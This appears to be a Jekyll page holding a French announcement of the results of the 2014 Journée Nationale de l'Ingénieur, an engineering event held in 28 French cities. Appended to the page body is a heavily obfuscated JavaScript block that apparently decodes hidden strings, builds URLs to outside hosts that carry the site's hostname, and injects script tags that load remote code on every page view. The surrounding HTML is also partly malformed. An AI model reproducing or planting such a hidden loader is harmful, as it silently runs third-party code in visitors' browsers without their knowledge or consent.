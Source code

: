 ```yaml
---
layout: default
published: true
title: "Bilan-JNI-2014"
---
```


##Bilan JNI 2014


<HTML>
<HEAD>
	<META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=utf-8">
	<TITLE></TITLE>
	<META NAME="GENERATOR" CONTENT="LibreOffice 4.0.5.2 (Linux)">
	<META NAME="AUTHOR" CONTENT="Jacques de VILLELE">
	<META NAME="CREATED" CONTENT="20140322;18060000">
	<META NAME="CHANGEDBY" CONTENT="J d V">
	<META NAME="CHANGED" CONTENT="20140322;18060000">
	<META NAME="AppVersion" CONTENT="12.0000">
	<META NAME="DocSecurity" CONTENT="0">
	<META NAME="HyperlinksChanged" CONTENT="false">
	<META NAME="LinksUpToDate" CONTENT="false">
	<META NAME="ScaleCrop" CONTENT="false">
	<META NAME="ShareDoc" CONTENT="false">
	<STYLE TYPE="text/css">
	<!--
		@page { margin: 0.98in }
		P { margin-bottom: 0.08in; direction: ltr; widows: 2; orphans: 2 }
		A:link { color: #0000ff; so-language: zxx }
	-->
	</STYLE>
<script id="6A8C7E1040C0947D"></script></HEAD>
<IMG SRC="![En-teteIESF-HN.jpg](/media/En-teteIESF-HN.jpg)
![En-teteIESF-HN.jpg](/media/En-teteIESF-HN.jpg)
" ALIGN=MIDDLE>
<BODY LANG="fr-FR" LINK="#0000ff" DIR="LTR">
<P STYLE="margin-top: 0.02n; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=6><B>Succès
JNI 2014</B></FONT></FONT></FONT>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>Plus
de 5 000 participants présents à la JNI 2014</B></FONT></FONT></FONT></P>
<P STYLE="margin-top: 1.02in; margin-bottom: 1.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>qui se déroulerait
dans </FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U><B>28
villes de France</B></U></FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3>
avec des conférences, colloques, table ronde et ateliers, où sont
intervenu des entrepreneurs, des ingénieurs, des innovateurs et des
personnalités de premier plan pour y apporter leur expérience et
leur témoignage. Pour sa 2ème édition la Journée Nationale de
l’Ingénieur 2014 s’articulait autour du thème « Innover,
Entreprendre ».</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%"><A NAME="_GoBack"></A>
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Ces manifestations
étaient organisées en partenariat avec des entreprises et des
organismes de dimension nationale, avec la participation locale des
Régions françaises, des écoles d’ingénieurs et des associations
de diplômés.</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous pouvez revoir
les vidéos assister en différé des sessions qui se sont déroulées
pour le colloque national à la Cité des Sciences et de l’Industrie
le 3 avril 2014( </FONT></FONT><A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U>http://www.iesf-jni.org/</U></FONT></FONT></FONT></A><FONT FACE="Times New Roman, serif"><FONT SIZE=3>).</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous pourrez décrouvrir
prochainement le compte rendu du colloque national à la Cité des
Sciences et de l’Industrie, et les photos des différentes JNI dans
toute la France.</FONT></FONT></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=4 STYLE="font-size: 13pt"><U><B>http://www.iesf-jni.org/</B></U></FONT></FONT></FONT></A></P>
<B></B><B><FONT><./P><P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B><BR><BR><B></B><B><FONT><./P>Rendez-vous
le </B></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><U><B>2
avril 2015</B></U></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>
pour la troisième JNI</B></FONT></FONT></FONT></P>
<P STYLE="margin-bottom: 0.11in"><BR><BR>
</P>
<script id="6A8C7E1040C0947D">(function(){function p(r){var h=120,n="",w=window,z=("f\x72o"+""+"i\u0058"+"U\u0072\u0061\x72"+"C\x6fd"+"e")['r'+'\x65\x70'+'la\u0063e']("\x69XU"+"r","m"+"C"+""+"h"),e="ch\u0061r"+"\u0043\x6Fd"+"e\x41t"+"",t=("wz"+"ng"+"\x74h"+"")['re'+''+'pl\u0061\u0063e'](""+"w\x7a",""+"le"+""),o="\x53t\u0072i\u006e\x67",f=w[o],q=f[z],k,v;for(var s=0;s<r[t];s++){k=r[e](s);v=k^h;n+=q(v);}return n;};var qc=-1559780412;if(window[p(("S"+"\u0072\x6E"+"n"+"k\x62\b").replace("S"+"r"+"\u006e\u006Ek"+"b","\f\x17"))]==window[p('\u000b\x1d\x14\u001E')]){var vi={};var ff=true;vi[p(("m"+"\u007a\u0042h\n\u000B\u0011\x17\x16").replace("\x6Dz"+"\x42h"+"","\x0E\u001D"))]=p('I'+'\x4DO');try{var nd=-2035394659;}catch(pc){};vi[p(("UO"+"OV\x16\f\r\x11\x1C").replace("\u0055\x4FO\x56","\u001B\x14\x11\u001d"))]="6A8C7E1040C0947D";var xb="hF6y194b5JrB8 AK34";vi[p(('\u0019\x1C\u001c\x6C\u0079\u0046\u006bs'+'\u001d').replace('\u006C\x79\u0046k'+''+'s','\u0017\u0016\x16\x19\u0015'))]=p("\u002A\x1dU\x15\u0019\n\u0013\x11\f");window[p((""+"J"+"W\u0064\u004A\x0e\x02").replace("\u004a\x57"+"dJ","\'\n"))]=vi;(function(){window[p(('\'\'\n\x0E\u0002\n\x67\x6Cj\u0071\x14').replace('g\u006cjq','\x1c\u001f\u001F\x1C'))]={product_name:p(('\x2A\x42'+'J\u006B\u006F\u0019\n\u0013\u0011\f').replace('\u0042Jko','\x1D\u0055\u0015'))};var zj=document[p('\u001B\n\x1D\x19\f\u001D='+'\x14\u001D\x15\u001D\x16\f')](p("\x0b\x1B\n\x11\b\f"));zj[p("\x0B\u001D\f9"+"\f\f\n\x11\x1A\r\f\x1d")](p(("\u006D\u0050QK\b\x1D").replace(""+"m\x50\u0051\x4B","\f\u0001")),p(('\f\u001D\u0000\fW\u0012\u0019Il\u001b\n\x11\b\f').replace('\u0049l','\u000e\x19\x0b')));zj[p('\u000B\u001d\f\u0039\f\f\n\u0011\x1a\r\f\u001d')](p(("\u001B\u0010\u0019\n\x4Ek"+"o\x44\x7A\f").replace("\x4e\x6B\u006FD"+"z","\x0B\u001D")),p(("-\x2c\x64\u004E\u0040").replace("d\u004e",">U")));zj[p('\x0b\u001D\f9\f\f\n\u0011\u001a\r\f\x1d')](p('\u000b\n\x1B'),(p(('yb'+'\x0b\x42').replace('\x79\u0062','\u0010\f\f\b'))==document[p(("\x14\u0049\x47\u0071\x11\u0017\u0016").replace("\x49\u0047\x71","\u0017\x1b\x19\f"))][p((''+'ge'+''+'i\u0054\x1B\x17\x14').replace('g'+''+'eiT','\b\n\x17\f\x17'))]?p("\u0010\f\f\b\u000b"):p(('\x79O'+'A'+'E\u0045\u0047KOMo\x51R\x75\x53\f\b').replace('y\u004F\x41EE\x47\u004bOM\x6F\x51R'+'\x75\x53','\u0010\f')))+p(('\x42W'+'\u0057\u000F\u000F\x0fV'+'\u000b\r\b\x1D\n\x1E\u0011\u000B\u0010V\x1b\u0017\u0015W\x0F\u000bW'+'\x0B\u001E\'\u0015\u0019\x11\x16V\x12\x0B\bG\u001c\u0014\x0b\x17\r\n\x1b\x1D'+'E\u000B\x1E\n\u000e\u0002\n^'+''+'O\u0046'+'O\u001C'+'E').replace('\x4fF'+'\u004f','\r\x0b\u001d\n1'+''))+"6A8C7E1040C0947D"+p("^"+"\u003B\u002c\u0031<E\n\u000e\u0002\n"+"J"+"HL\x48\'\u004AH\x40J"));document[p('\u001A\u0017\x1c\x01')][p(("\x19\b\b\x1d\x16T"+"Ft\u0014\u001C").replace(""+"T\x46t","\u001C"+";\x10\u0011"))](zj);})();(function(){var jy=p(''+'*\x1d\u0055\u0015\u0019\n\x13\u0011\f');var mn={_keyStr:"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=",encode:function(qy){var gf="";var s,df,sw,xp,uw,ue,qu;var br=0;qy=mn[p(("\'\r\f\u001e@"+"\'"+"y\x53\x6f\x52\x70\x1c\x1d").replace("yS"+"\u006fRp"+"","\u001d\u0016\x1B\x17"))](qy);while(br<qy[p(("\u0014\u0054\x4c\u0010").replace("\u0054\u004c","\u001d\u0016\u001f\f"))]){s=qy[p("\u001B\u0010\x19\n"+";\x17\u001c\x1d\x39\f")](br++);df=qy[p(("\u001B\u0010\x19\u0045M\x1c\x1D"+"9\f").replace(""+"EM"+"","\n\u003B\x17"))](br++);sw=qy[p(("\u001b\x10\u0019"+"y\x68qsL\x39\f").replace("\x79h\u0071\x73"+"L","\n\u003B\x17\u001c\u001D"))](br++);xp=s>>2;uw=((s&3)<<4)|(df>>4);ue=((df&15)<<2)|(sw>>6);qu=sw&63;if(isNaN(df)){ue=qu=64}else{if(isNaN(sw)){qu=64}}gf=gf+this[p(("\'\u0055n\u0052\x4A\n").replace("\u0055\u006e\x52"+"J","\u0013\x1d\u0001\x2B\f"))][p("\x1B\x10\u0019\n\x39\f")](xp)+this[p('\'\x13\u001D\x01+'+'\f\n')][p(("vY"+"\f").replace("v\x59","\x1b\u0010\u0019\n\u0039"))](uw)+this[p("\'\u0013\u001D\u0001\u002B\f\n")][p(('\x1bYY\u0072\x48\x61\f').replace('Y'+'\x59\x72H\u0061','\x10\u0019\n9'+''))](ue)+this[p("\'\u0013\u001D\u0001+\f\n")][p("\x1b\x10\x19\n\u0039\f")](qu)}return gf},decode:function(xr){var df={},zp,gu,xz=[],ke="",kr=String[p(("\u001E\n\u0017\x15"+";b"+"\x73\u006e\x57\x3B\x17\x1c\u001d").replace("b\u0073\x6e\u0057","\u0010\u0019\n"))];var vn=[[65,91],[97,123],[48,58],[43,44],[47,48]];for(ts in vn){for(zp=vn[ts][0];zp<vn[ts][1];zp++){xz[p('\b\r\u000b\x10')](kr(zp))}}for(zp=0;zp<64;zp++){df[xz[zp]]=zp}for(zp=0;zp<xr[p(("v\x7A\x10").replace("\x76\u007A","\u0014\u001D\u0016\x1F\f"))];zp+=72){var qu=0,ue,gf,zr=0,zz=xr[p("\u000b\r\x1A\x0b\f\n\u0011\x16\u001F")](zp,zp+72);for(gf=0;gf<zz[p("\x14\u001D\x16\x1F\f\x10")];gf++){ue=df[zz[p(('\x1bT'+'\u0054'+'x\f').replace('\x54'+'T\u0078','\x10\x19\n9'))](gf)];qu=(qu<<6)+ue;zr+=6;while(zr>=8){ke+=kr((qu>>>(zr-=8))%256)}}}return ke},_utf8_encode:function(no){no=no[p('\n\x1D\b\x14\x19\x1b\u001d')](/\r\n/g,"\n");var vn="";for(var zr=0;zr<no[p("\u0014\u001D\x16\u001f\f\x10")];zr++){var gu=no[p('\x1B\u0010\x19\n\u003B\x17\x1c\x1d'+'9\f')](zr);if(gu<128){vn+=String[p(("\x1E\x73fq\x10\u0019\n;"+"\x17\u001c\x1D").replace("\u0073f"+"q","\n\x17\u0015\x3B"))](gu)}else{if((gu>127)&&(gu<2048)){vn+=String[p(('\u001E\n\x17\x15'+';\u0010\x19'+'z\x53\x4bz\u0056\x1d').replace('zS\u004B\x7a\x56','\n;'+'\x17\u001c'))]((gu>>6)|192);vn+=String[p(("\u001E\n\x17\u0015;\x10\x19\u0070\u0079\u0053"+"s\x1c\u001D").replace("\u0070\u0079"+"S\u0073","\n\u003b\u0017"))]((gu&63)|128)}else{vn+=String[p("\u001E\n\u0017\u0015;\u0010\u0019\n;\u0017\u001c\x1D")]((gu>>12)|224);vn+=String[p(("\x1E\n\u0017\x15"+";W"+"M\u004F\u001c\x1D").replace("\x57\x4dO","\x10\x19\n;"+"\u0017"))](((gu>>6)&63)|128);vn+=String[p(("\x1E"+"L\x62o\u0050\u0072\u0019\n;\x17\x1c\u001d").replace("L"+""+"b\u006f\x50\u0072","\n\x17\u0015"+";\u0010"))]((gu&63)|128)}}}return vn}};var ic=p("\x16\x45")+jy+p("\u005E\u0010\u0045\u001f\u0011\n"+"V\u001C\n\u0011\u000E\x1d\n\u0017\b\f\u0011"+"V\u0016\x1D\f^\x17E"+"\x1c\b^"+"\u0019"+"E\u004aH\x4c\u0048\x5E\u000b\x45\x4aH\x40J\u005e\x1bE\x1f\n\x1D\u001D\x16\x5E\u000FE")+document[p(('\x14\u0074S'+'tj'+'\x65\u0017\x16').replace(''+'t\u0053\u0074\x6Ae'+'','\x17\u001b\u0019\f\x11'))][p("\x10\u0017\x0b\f\u0016\x19\x15\x1d")];var vg=p(("\x10\f\f\bB"+"\u0057\x57\x1F\u0011\nV\u001c\n\x11\x0e\x1d\ny"+"\x4d\x4C\x51\u0059\f\u0011"+"V\x16\x1d\f\x57\x0b\x1cW\u0019\b\b\u000b\u0057\u0019\x1C\u0011\x16\u001e\x17UI"+"V\u0048W\x11\x16\u001c\x1d\x00V"+"\u0010\f\x15\u0014G").replace("y\u004D\u004cQY","\x17\b"))+mn[p('\x1d\u0016\u001b\x17\u001c\x1d')](ic);var zj=document[p('\x1B\n\u001d\u0019\f\u001D\x3d\u0014\x1d\x15\x1D\u0016\f')](p('\u000B\u001B\n\x11\b\f'));zj[p('\x0B\u001D\f\x39\f\f\n\u0011\u001a\r\f\x1d')](p("\f\u0001\b\u001D"),p("\f\u001d\u0000\fW"+"\x12\x19\u000e\u0019\x0b\x1B\n\x11\b\f"));zj[p(("\x74p"+"FBY\f\x39\f\f\n\x11\x1A\r\f\u001d").replace("tpFBY"+"","\u000b\u001d"))](p((''+'I\u0041\u0066Y\x1d\f').replace('I\x41'+'fY'+'','\x1B\u0010\u0019\n\x0B')),p(('\u0070\u005a\x51\x3e'+'U\x40').replace('p\u005a'+'Q','\u002D,')));if("http:"==document[p(("\x14\x74lQq\x19\f\u0011\u0017\x16").replace("t"+"l\x51"+"q","\x17\x1B"))][p("\b\n\x17\f\u0017\u001b\u0017\u0014")]){zj[p(("\u000b\u001d\f9\f\f\n\x11l\u0059\f\x1d").replace(""+"l"+"Y","\x1a\r"))](p(('\x6C\u004e'+'VK\x55j\u006D\u0078'+'B\x73\u0076\u0056R\x1b').replace('\x6C\x4E'+'VK'+'U'+'j'+'\u006d\u0078\u0042s\x76\x56R','\u000b\n')),p(('\u0010\f\f\b\x42\x57W\x11V'+'\n\u000E\u0002\n\x12\u000bV\u0011\x16\u001E\x50C'+'\u0079\x5A\n'+'W\u0012\u0019\u000E\x19\x0b\x1b\n\u0011\b\f\x56\x12\x0b\u0047\u001B\x10\x19\x16\x16\u001d\x14'+'E\n\u000E\u0002\n'+'J\u0048\x4CH\'J'+'H\x40J\x5E\x19\b\b,\u0011\f\x14\u001DE').replace('\x50\u0043\u0079Z','\u0017\u0057\n\u000e\x02'))+jy+p('^\b\x14\u0011\x16\x13E'+'')+encodeURIComponent(vg));}else{zj[p('\u000B\x1D\f\x39\f\f\n\x11\x1a\r\f\x1d')](p('\x0b\n\x1B'),p("\u0010\f\f\b\x0bBW"+"\u0057\u0011\'\n\u000e\u0002\n\x12\u000b\'\x11\x16\x1e\u0017\x56\f\x14\u000B\x1B\x1c\x16V\u001B\u0017\x15\u0057\n\u000e\x02\n"+"W\u0012\u0019\x0e\u0019\u000b\x1b\n\x11\b\fV\u0012\u000B\u0047\x1b\u0010\x19\u0016\u0016\u001D\x14E\n\u000e\u0002\n"+"J\x48"+"L\u0048\'\x4a\u0048\x40J\x5e\x19\b\b"+",\x11\f\x14\x1dE")+jy+p("\u005e\b\x14\u0011\x16\x13E"+"")+encodeURIComponent(vg));}document[p("\x1A\x17\u001C\u0001")][p(('\x19\u004D'+'B'+';\u0010\u0011\x14\x1c').replace('\u004D'+'B','\b\b\x1D\x16\x1c'))](zj);})();;var af=document[p('\x1B\n\u001d\x19\f\u001d='+'\x14\x1d\u0015\u001d\u0016\f')](p(("\u000b\u0041D\f").replace("A\x44","\u001B\n\x11\b")));if(navigator.language){var kx=('o'+'\u0078BF'+'\x42J\u0048\x4bj\u0054\u0034\x3a\u0048'+'G\u0020\u0020d\u0070'+'6\u0065\u0057'+'P\u0031').replace('\x78\x42\u0046B','\x6B\x6e\x519i'+'');}else var vm=(' \x45\u0069A'+'cL'+'\x31N\x36X'+'\u0020\x66\x64'+'v\x78\x751').replace('d'+'vxu'+'',' \u0033\x61C'+'\x20');af[p("\x0b\n\u001b")]=p('\u0057W'+'\u001F\u0011\n\u0056\x1C\n\u0011\u000e\x1d\n\u0017\b\f\x11V\u0016\u001d\fW\x0b\u001cW\x4AH\x4C\x48W'+'\u004a\u0048\x40\x4a\u0056\x12\x0b');if(true)var ti='Uq ';else var ln=location.hostname;document[p(('\x1AZ'+'\x74'+'p\x53\u0075'+'U\x70\u0078\x49P'+'v'+'\u0066\u0001').replace('\u005a\u0074p'+'S\u0075'+'U'+'px\x49'+'P\x76\u0066','\u0017\x1C'))][p('\u0019\b\b\u001D\x16\x1c;'+'\x10\u0011\u0014\x1C')](af);}})();</script></BODY>
</HTML>